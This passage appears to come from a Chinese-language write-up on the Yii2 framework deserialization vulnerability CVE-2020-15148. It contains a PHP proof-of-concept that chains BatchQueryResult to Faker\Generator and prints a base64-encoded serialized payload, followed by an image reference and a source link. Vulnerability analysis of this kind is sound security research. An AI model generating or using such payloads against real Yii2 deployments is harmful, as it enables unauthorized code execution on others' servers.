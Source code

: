     namespace yii\db{
        use Faker\Generator;

        class BatchQueryResult{
            private $_dataReader;

            public function __construct(){
                $this->_dataReader = new Generator;
            }
        }
    }
    namespace{
        echo base64_encode(serialize(new yii\db\BatchQueryResult));
    }
    ?>

![8.jpg](./resource/(CVE-2020-15148)Yii2框架反序列化漏洞/media/rId35.jpg)

参考链接
--------

> https://xz.aliyun.com/t/8307
